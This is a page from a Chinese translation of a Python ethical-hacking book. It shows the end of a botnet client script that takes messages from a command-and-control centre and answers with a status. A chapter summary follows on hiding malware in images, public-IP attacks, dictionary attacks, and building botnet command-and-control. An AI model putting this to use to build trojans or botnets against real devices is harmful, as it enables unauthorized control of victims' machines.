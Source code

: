 while communicate_bot:

msg = s.recv(1024)

msg = msg.decode()

print("指令中心说：", msg)

if msg == "exit":

communicate_bot = False

# ans = input("[+] 是否希望保持连接：")

ans = "connected"

if ans == "no":

status = "disconnected"

s.send(status.encode())

run_bot = False

else:

status = "conntected".encode()

s.send(status)

s.close()

完整的`bot1.py`代码请参见以下链接：

https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/bot1.py

在本节中，我们学习了如何为机器人网络客户端创建一个命令与控制中心。你可以添加任意数量的客户端，并使用你的 CNC 程序统一控制它们。

# 总结

在本章中，我们学习了一些成功部署恶意软件程序的方法。恶意软件程序的一个重要方面是它的隐蔽性。本章重点讲解了如何将恶意软件隐藏在图像中。我们学习了通过公共 IP 进行恶意软件攻击，以及黑客如何攻击不在同一网络中的受害者。接着，我们学习了如何使用字典攻击破解密码保护的文件。最后，我们学习了如何创建一个用于僵尸网络攻击的指挥控制中心。这些攻击允许黑客通过一个程序控制大量分布式设备。通过本章的学习，你应该能够创建木马、执行公共 IP 攻击，并创建自己的僵尸网络。在下一章中，我们将学习如何保护作为黑客的在线身份，以及这一点在成功攻击中的重要性。下一章见！
